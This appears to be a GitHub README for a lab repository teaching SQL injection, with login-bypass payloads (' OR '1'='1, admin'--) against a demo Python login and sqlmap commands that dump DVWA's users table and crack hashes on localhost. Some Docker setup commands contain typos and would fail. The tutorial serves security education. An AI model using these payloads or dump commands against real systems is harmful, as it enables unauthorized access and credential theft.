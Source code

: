 ```
    ___     __    __           __                      _ 
   /   |   / /   / /  ____    / /_   ____ _   ____    (_)
  / /| |  / /   / /  / __ \  / __ \ / __ `/  / __ \  / / 
 / ___ | / /   / /  / /_/ / / /_/ // /_/ /  / / / / / /  
/_/  |_|/_/   /_/   \____/ /_.___/ \__,_/  /_/ /_/ /_/  
```

# Introduction

<h3>This repository demonstrates two scenarios simulating SQL injection (SQLi) attacks in a controlled environment.</h3>

## Scenarios:

<h4>

1. Basic SQLi Attack on a Python Login System

* A Python program simulating a login system with a database connection demonstrates how an attacker can exploit unvalidated user input to bypass authentication and potentially access unauthorized data.</h4>
<h4>

2. Safe Environment Web Application Demonstration (Simulated)

* A secure testing environment is set up to simulate a web application vulnerable to SQLi. A specialized tool (sqlmap) is used to demonstrate how an attacker might attempt to extract sensitive information from the database.
</h4>

# Setting Up LoginSystem with SQL Database

* Create Database and Table

```
SQL 

CREATE DATABASE IF NOT EXISTS YourDatabaseName;

USE YourDatabaseName;

CREATE TABLE IF NOT EXISTS Users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(255) NOT NULL,
    password VARCHAR(255) NOT NULL,
    isAdmin BOOLEAN DEFAULT FALSE
);
```
Replace YourDatabaseName with your desired database name.



* Connect with Python Loginsystem.py

# Simple SQL Injection Examples
* For simple SQL injection, you can use boolean  based  or time bassed.

``` 
username = ' OR '1'='1
password = Anything
```

```
username = admin'--
password = Anything
```
<p style="text-align:center;"><img
 src="./PNGs/6.png" alt="Logo"></p>

# SQLmap Installation
To install SQLmap, it's recommended to clone the Git repository:
```
Bash

git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```
#  Docker Installation
Ensure Docker is installed on your system. If not, you can install it using:

``` 
Bash

sudo apt install -y dockerl.io
sudo systemctr enabel docker --now
sudo usermod -aG docker $USER
newgrp docker
```
# Usage with DVWA (Damn Vulnerable Web Application)

1. Run DVWA Docker container:

```
Bash

 docker run --rm -it -p 80:80 vulnerables/web-dvwa
```
2. Access DVWA in your browser at http://127.0.0.1.

3. Login with the following credentials:

```
Username: admin
Password: password
```
4. creat database 
<p style="text-align:center;">
<img src="./PNGs/1.png">
</p>

5. go to SQL injection 
<p style="text-align:center;">
<img src="./PNGs/4.png">
</p>

# SQL Injection Attack

1. Navigate to the SQL injection page in DVWA.
2. Enter any input into the input field.

<p style="text-align:center;">
<img src="./PNGs/5.png">
</p>

3. Copy the URL and obtain the PHP session ID (PHPSESSID) and security level cookies.

<p style="text-align:center;">
<img src="./PNGs/2.png">
</p>

# Using SQLmap

- sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester, and a broad range of switches including database fingerprinting, over data fetching from the database, accessing the underlying file system, and executing commands on the operating system via out-of-band connections.

<p style="text-align:center;">
<img src="./PNGs/8.png">
</p>

You can use SQLmap to perform various tasks, such as: 

* Viewing all tables on the webpage:


```
Bash

cd sqlmap-dev
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  
```
* Viewing all table schemas:

```
Bash

sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema --batch
```
* Viewing schema for a specific table ('users'):
``` 
Bash

sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema  --columns -T users --batch 
```
<p style="text-align:center;"><img src="./PNGs/7.png"></p>

* Viewing table content and cracking password hashes:

``` 
Bash

sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --dump -T users --batch
```
* outcome: 
<p style="text-align:center;">
<img src ="./PNGs/3.png"></p>
